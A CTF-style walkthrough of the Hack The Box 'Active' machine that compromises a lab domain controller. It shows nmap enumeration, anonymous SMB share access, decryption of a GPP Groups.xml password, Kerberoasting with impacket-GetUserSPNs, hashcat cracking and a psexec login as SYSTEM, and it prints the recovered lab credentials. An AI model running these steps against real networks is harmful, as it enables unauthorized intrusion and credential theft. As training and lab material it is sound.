





# Active

In this room we are going to attempt to get root in the Active machine which its theme is based on Active Directory! Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4
```

> PORT      STATE SERVICE       VERSION
> 53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
> | dns-nsid: 
> |_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
> 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-25 16:52:24Z)
> 135/tcp   open  msrpc         Microsoft Windows RPC
> 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
> **389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)**
> 445/tcp   open  microsoft-ds?
> 464/tcp   open  kpasswd5?
> 593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
> 636/tcp   open  tcpwrapped
> **3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)**
> 3269/tcp  open  tcpwrapped
> 49152/tcp open  msrpc         Microsoft Windows RPC
> 49153/tcp open  msrpc         Microsoft Windows RPC
> 49154/tcp open  msrpc         Microsoft Windows RPC
> 49155/tcp open  msrpc         Microsoft Windows RPC
> 49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
> 49158/tcp open  msrpc         Microsoft Windows RPC
> 49165/tcp open  msrpc         Microsoft Windows RPC
> Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
>
> Host script results:
> | smb2-security-mode: 
> |   210: 
> |_    Message signing enabled and required
> | smb2-time: 
> |   date: 2023-05-25T16:53:21
> |_  start_date: 2023-05-25T16:40:43

By the output of the scan we can assume we are facing a domain controller: ports 53, 88, 445, 389, 3268.


### SMB Anonymous Login

We see that SMB is open, let's try to enumerate its shares and see if we have access to any.

```
smbclient -L \\10.10.10.100
```



Great! We confirmed we have access. Let's try to enter all of them.

Additional enumeration with enum4linux helps with this process by on top of listing the shares, telling us which ones we have access to:

```
enum4linux -a 10.10.10.100
```



Let's enter the Replication Share and download all the files in it if we can.

Before this to facilitate this process we can set recurse to on and prompt to off so that we can recursively download all files without being asked if we want to for each.


Now we can analyze the downloaded files and search for interesting information.

### Abusing GPP

We are going to abuse a vulnerability in GPP which contains an encrypted password on the Groups.xml file in the SYSVOL folder. Luckily for us, despite not having access to SYSVOL since we do not have user credentials, we have access to the Replication folder which also has this file stored inside since I assume its a copy of the SYSVOL share.

Below I am going to use two different methods to extract the password from this file and decrypt it.

#### Method 1: Metasploit

We can use the /scanner/smb/smb_enum_gpp module to enumerate a specific share in search for the Groups.xml file and this tool on top of extracting the information inside, it also decrypts the password for us.


#### Method 2: Manual

As we can see from the output above, we can see the Groups.xml file inside the `active.htb/Policies/.../MACHINE/Preferences/Groups/Groups.xml`.

Opening this file we can see both the username and the encrypted password:


Great! In order to decrypt the password we can use a tool native to kali-linux called `gpp-decrypt`:

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```


Finally, we have a pair of working credentials which we can use to login using psexec. 

```
impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
```

Unfortunately, as we can see by the output of the command this user does not have writable permission on any of the shares in order to upload a payload and get a shell. Despite this we still have a pair of credentials, let's try to perform a Kerberoasting attack in order to see if there are any accounts we can try to crack their hashes.

### Kerberoasting

```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```



This could not be better, we can see that the Administrator account of the domain is susceptible to Kerberoasting!

Let's try to crack this hash using hashcat!

```
.\hashcat.exe -m 13100 .\hashes\test.hash.txt .\wordlists\rockyou.txt
```

I ran this on my local machine because I can leverage my GPU.



Let's see if now we can login on the target machine using psexec.

```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```



We did it! We have successfully compromised the DC as the NT Authority\system!
